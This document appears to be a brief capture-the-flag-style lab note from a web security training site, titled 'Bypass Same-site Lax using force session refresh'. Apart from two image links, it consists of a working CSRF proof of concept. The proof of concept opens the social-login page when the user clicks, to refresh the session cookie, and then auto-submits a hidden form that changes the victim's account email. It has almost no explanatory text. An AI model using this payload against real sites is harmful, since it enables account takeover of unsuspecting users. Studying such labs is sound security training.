 # Bypass Same-site Lax using force session refresh

![image.png](Bypass%20Same-site%20Lax%20using%20force%20session%20refresh%201e0021737a8980788e18d1e7d5c0c9f2/image.png)

![image.png](Bypass%20Same-site%20Lax%20using%20force%20session%20refresh%201e0021737a8980788e18d1e7d5c0c9f2/image%201.png)

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a4100fb04c9e48a8016314800d500d2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="piper&#64;hack&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      window.onclick = () => {
        window.open('https://0a4100fb04c9e48a8016314800d500d2.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
    </script>
  </body>
</html>
```